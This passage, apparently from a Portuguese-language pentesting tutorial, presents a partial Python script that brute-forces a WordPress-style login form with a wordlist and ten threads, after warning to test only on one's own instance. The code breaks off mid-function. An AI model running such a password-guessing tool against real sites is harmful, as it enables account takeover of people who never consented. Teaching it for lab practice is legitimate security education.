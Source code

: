 É importante salientar que nunca se deve realizar esses testes em um alvo ativo. Sempre configure uma instância da sua aplicação web  de destino com credenciais conhecidas.

Criaremos um novo arquivo `wordpress_killer.py`:

```py
# Utilizaremos o mesmo parser que usamos anteriormente
from io import BytesIO
from lxml import etree
from queue import Queue

import requests
import sys
import threading
import time

# Uma mensagem de verificação de login. Deve ser diferente para cada site
SUCCESS = '"loggedIn": true'
TARGET = "link" # link - alvo
WORDLIST = 'C:\\Users\\caioe\\Desktop\\VM\\wordlists\\cain.txt'

# Pega as palavras da wordlist
def get_words():
    with open(WORDLIST) as f:
        raw_words = f.read()
    
    words = Queue()
    for word in raw_words.split():
        words.put(word)
    return words

# Procura os campos de input do alvo, parecido com o parser feito antes
def get_params(content):
    params = dict()
    parser = etree.HTMLParser()
    tree = etree.parse(BytesIO(content), parser=parser)
    for elem in tree.findall('.//input'):
        name = elem.get('name')
        if name is not None:
            params[name] = elem.get('value', None)
    return params

# Nossa classe Bruter, que fará o ataque
class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nIniciando ataque de força bruta em {url}\n')
        print("Concluida a configuracao na qual o nome de usuario eh: %s\n" % username)

    # Essa função apenas instancia as threads de execução 
    def run_bruteforce(self, passwords, type):
        for _ in range(10):
            t = threading.Thread(target=self.web_bruter, args=(passwords, type, ))
            t.start()
    
    # Web bruter recebe a lista de palavras e o tipo de request (se é JSON ou URL)
    def web_bruter(self, passwords, type):
        session = requests.Session()        # inicia uma sessão, para manter o login
        resp0 = session.get(self.url)       # faz um get na URL de target (pagina de login) para achar seus campos com o parser
        params = get_params(resp0.content)  # procura os parametros usando o parser
        params['eid'] = self.username       # Intancia os campos a serem colocados, voce pode colocar como quiser, 
```